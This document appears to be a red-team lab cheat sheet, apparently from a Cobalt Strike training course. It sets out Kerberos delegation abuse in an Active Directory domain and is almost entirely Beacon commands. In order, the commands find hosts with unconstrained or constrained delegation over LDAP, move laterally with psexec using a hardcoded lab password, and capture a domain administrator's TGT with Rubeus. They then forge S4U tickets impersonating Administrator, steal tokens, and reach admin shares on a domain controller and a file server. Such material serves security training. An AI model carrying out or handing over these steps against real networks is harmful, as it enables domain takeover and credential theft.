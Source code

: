 
### Unconstrained Delegation
- Use LDAP to find computers configured for unconstrained delegation.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb

-  Run Rubeus in monitor mode on _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap`
    
-  Wait 1-2 minutes for the TGT of a domain administrator to be captured.
    
-  Stop Rubeus.
    
    1. jobs
    2. jobkill 0

-  Inject the captured TGT into a sacrificial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:[TICKET]`
    
-  Impersonate the spawned process.
    
    1. steal_token [PID]
-  Verify the ticket is present.
    
    1. run klist
-  Use it to access _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$
-  Drop the impersonation.
    
    1. rev2self
-  Terminate the spawned process.
    
    1. kill [PID]

### Constrained Delegation
- Search for computers whose msDS-AllowedToDelegateTo attribute is not null.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo`
    
-  Get the UAC value for _lon-ws-1_ to see if the **TRUSTED_TO_AUTH_FOR_DELEGATION** flag is set.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(samaccountname=lon-ws-1$)) --attributes userAccountControl`
    
    TerminalTypeCopy
    
    `[Convert]::ToBoolean(16781312 -band 16777216)`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb
-  Dump _lon-ws-1_'s TGT.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap`
    
-  Perform the S4U abuse to obtain a usable service ticket for _cifs/lon-fs-1_, impersonating the default domain admin.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:cifs/lon-fs-1 /ticket:[TGT] /impersonateuser:Administrator /nowrap`
    
-  Inject the ticket into a sacrificial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]`
    
-  Impersonate the process.
    
    1. steal_token [PID]
-  Verify the ticket has been injected.
    
    1. run klist
-  Use the ticket to access _lon-fs-1_.
    
    1. ls \\lon-fs-1\c$